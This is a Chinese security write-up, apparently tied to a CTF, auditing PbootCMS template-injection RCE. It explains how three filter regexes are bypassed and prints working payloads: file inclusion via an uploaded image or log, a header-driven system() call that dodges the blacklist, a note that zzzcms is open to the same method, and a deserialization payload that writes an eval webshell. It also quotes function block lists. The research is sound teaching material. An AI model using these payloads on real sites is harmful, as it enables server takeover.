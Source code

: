 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8663)

前言
--

机缘巧合，为了给 bytectf 出题，不会写代码，无奈拿起老本行，代码审计一下 pbootcms，先说一次，CTF 诚不欺我

0x01
----

目前公网看到的最新的是 3.0.1 版本的 rce，[https://xz.aliyun.com/t/8321](https://xz.aliyun.com/t/8321)，简单审计之后发现这个 cms 的历史漏洞真多，比如比较新的有这个 [https://www.anquanke.com/post/id/222849#h3-6](https://www.anquanke.com/post/id/222849#h3-6)，不过这里与之前漏洞不太一样的是，这是修改文件上传后缀 getshell，前提还需要能破解 admin 的密码

0x02
----

那么我们再来看这里的 rce 都是怎么防御的，总的来说，要过三个正则

```
\{pboot:if\(([^}^\$]+)\)\}([\s\S]*?)\{\/pboot:if\}

([\w]+)([\x00-\x1F\x7F\/\*\<\>\%\w\s\\\\]+)?\(

(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(pcntl_exec)|(popen)|(proc_open)|(print_r)|(print)|(urldecode)|(chr)|(include)|(request)|(__FILE__)|(__DIR__)|(copy)|(call_user_)|(preg_replace)|(array_map)|(array_reverse)|(array_filter)|(getallheaders)|(get_headers)|(decode_string)|(htmlspecialchars)|(session_id)
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101427-17b2abe4-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101427-17b2abe4-3db2-1.png)  
可以说是非常的苛刻，最终调用的 php 代码如下

```
eval('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');
```

我们首先来看第一个正则

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101503-2d2d60e0-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101503-2d2d60e0-3db2-1.png)  
这个正则主要是限制了，if 语句里面不能出现}、^、$ 这三个字符

我们来看看第二个正则

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101513-333e5bba-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101513-333e5bba-3db2-1.png)  
很明显，这里限制了调用了函数，在 KCon2019 大会上的提出的新特性也过滤掉了，导致调用函数基本不成可能？？  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101531-3de18948-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101531-3de18948-3db2-1.png)  
来看第三个正则，是一个完全的黑名单，黑名单的产生是一个一个漏洞堆出来了，这里提一个醒，过滤了 include，没有过滤 require 的操作实在太秀，笔者测试发现在 3.0.2 之前是可以配合文件上传 rce 的，默认 cms 前台是个人中心是有一个头像上传的地方，所以你懂的，注意，也是前台 getshell 哦，payload 如下

```
{pboot:if(1)require "/var/www/html/static/upload/image/xxxxxxx/1531651052463520.png";//)}sdfsd{/pboot:if}
```

完美符合预期

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101626-5ea2e0aa-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101626-5ea2e0aa-3db2-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101629-6096fa72-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101629-6096fa72-3db2-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101640-66a1e17a-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101640-66a1e17a-3db2-1.png)  
这里再提一句，如果前端没有文件上传功能，这里还可以 getshell，这里再给一个 payload，我们可以包含日志文件，当然上面也是可以包含日志文件的，此 trick 来源于 N1CTF_easytp5 那道题

```
{pboot{user:password}:if(1)require+\app\home\controller\ParserController::parserMemberLabel('/Applications/MAMP/htdocs/1.php');//)}sdfsd{/pboot:if}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101715-7bf3be04-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101715-7bf3be04-3db2-1.png)

0x03
----

上面所说的为什么不能再最新版本使用呢，是因为 3.0.4 移除了一个 decode_string 函数  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101727-83233056-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101727-83233056-3db2-1.png)

而老版本正好有一个双引号在带入之前是经过了 html 解码的，在 3.0.4 版本不行 (在 3.0.3 就去除了)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101730-84d3127c-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101730-84d3127c-3db2-1.png)

所以 3.0.3 跟 3.0.4 版本变得不可行

0x04
----

经过了一连串历史漏洞的分析我们发现要想造成 rce，最需要绕过的是第二、三个正则

```
([\w]+)([\x00-\x1F\x7F\/\*\<\>\%\w\s\\\\]+)?\(
```

大家对无字母 getshell 非常的熟悉，[https://xz.aliyun.com/t/8107](https://xz.aliyun.com/t/8107) 这篇文章写的非常的详细，我们参考文章尝试一下抑或可行？

在 PHP7 中，我们可以使用 ($a)() 这种方法来执行命令。

```
(~urldecode("%8c%86%8c%8b%9a%92"))(~urldecode("%88%97%90%9e%92%96"));
```

这里翻译过来执行的是 system('whoami');

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101844-b0a60c60-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101844-b0a60c60-3db2-1.png)  
仿佛好像有了？？？我们打远程看看

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101927-ca4bebd0-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101927-ca4bebd0-3db2-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101849-b3acad38-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101849-b3acad38-3db2-1.png)  
可以看到，经过了 htmlspecialchars 函数处理之后，由于存在不可见字符，直接替换为空了，这条路绝了??

0x05
----

下面就是这篇文章的精彩内容，CTF 诚不欺我。

目前有一个思路，我们假设不存在这个 htmlspecialchars 函数，那么我们后面应该是可以 rce 的，而且细心发现，这里怎么变成了 pboot@if？？

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101944-d45fcc86-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101944-d45fcc86-3db2-1.png)  
是因为在调用 escape_string 之前，他把我们替换掉了

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101945-d5468586-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101945-d5468586-3db2-1.png)  
但是呢，我们往后看

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101953-da12c6d8-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101953-da12c6d8-3db2-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214101957-dc427dd6-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214101957-dc427dd6-3db2-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102000-de3869f2-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102000-de3869f2-3db2-1.png)  
太秀了，后面他会识别正则，然后替换为空，作为老赛棍来说，有内双写替换为空那味了，简单入门操作, 就这样，我们成功的走到了最后一步

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102056-ff64d610-3db2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102056-ff64d610-3db2-1.png)  
成功 rce，我们在细心一点，这里我们竟然把所有正则都给过去了？？  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102117-0c29998a-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102117-0c29998a-3db3-1.png)

你好是的，第二个正则在这里就跟没有一样，你看，是不是直接随便绕

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102124-1073103e-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102124-1073103e-3db3-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102135-168c8720-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102135-168c8720-3db3-1.png)

0x06
----

万事具备，只差东风，就差一个 htmlspecialchars 了，前面尝试的是抑或，然后编码的形式绕过死亡黑名单，但是差一点，这里不得不提到，不知道大家还记得国赛的 Lovemath 那道题没有

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102157-241a5db8-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102157-241a5db8-3db3-1.png)  
这里没有乱码，没有双引号，夜晚的星星还是那么亮，一切都是这么的朴实无华

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102201-267b4356-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102201-267b4356-3db3-1.png)

0x07
----

有趣的是祥云杯线上出来了这个 cms，直接完美撞车

~前排提醒，zzzcms 目前最新版本 1.8.4 也可以这么操作，这里我 waf 看起来恶心，结果 ` 都没过滤，老开发了. jpg~

```
$danger=array('php','preg','server','chr','decode','html','md5','post','get','request','file','cookie','session','sql','mkdir','copy','fwrite','del','encrypt','$','system','exec','shell','open','ini_','chroot','eval','passthru','include','require','assert','union','create','func','symlink','sleep','ord','print','echo','var_dump');
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102239-3d27a392-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102239-3d27a392-3db3-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102245-409bc9e0-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102245-409bc9e0-3db3-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102249-42ffb0b6-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102249-42ffb0b6-3db3-1.png)

0x08
----

万万我没有想到的跟祥云杯竟然撞车了，而与出题人一番沟通之后，发现 payload 跟我一样，那再这样出题，肯定是不行的，不过 php 是世界上最好的语言对吧，我们有没有办法绕过第三个正则呢

```
(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(pcntl_exec)|(popen)|(proc_open)|(print_r)|(print)|(urldecode)|(chr)|(include)|(request)|(__FILE__)|(__DIR__)|(copy)|(call_user_)|(preg_replace)|(array_map)|(array_reverse)|(array_filter)|(getallheaders)|(get_headers)|(decode_string)|(htmlspecialchars)|(session_id)
```

你好有的，更直接的方法，能让这些黑名单全部失效掉, 再次之前，第一个、第二个正则已经全部失效掉了，现在三个正则都全绕过了 2333，如下姿势

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102317-539cd28c-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102317-539cd28c-3db3-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102323-5727135e-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102323-5727135e-3db3-1.png)

```
{pboot{user:password}:if(1)(sys.tem)(((ne.xt)((getallheade.rs)())));;//)}sdfsd{/pboot:if}
```

End
---

pbootcms 可所谓漏洞百出，修复方法，看官方吧 (php 是世界上最好的语言，不过 php8 的存在可能导致 ctfer 失业)

补充
--

签到题预期解法如下，出现严重失误导致全部非预期，实属惭愧

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201214102438-83ecbdb2-3db3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201214102438-83ecbdb2-3db3-1.png)

```
O:1:"B":3:{s:7:"content";s:31:"<?php echo 1;eval($_POST[a]);?>";s:8:"filename";s:5:"1.php";s:6:"decade";O:3:"pdo":0:{};}
```

原理就是这个 fatal error，然后导致后面代码停止执行，但是反序列化的 destruct 方法还是会执行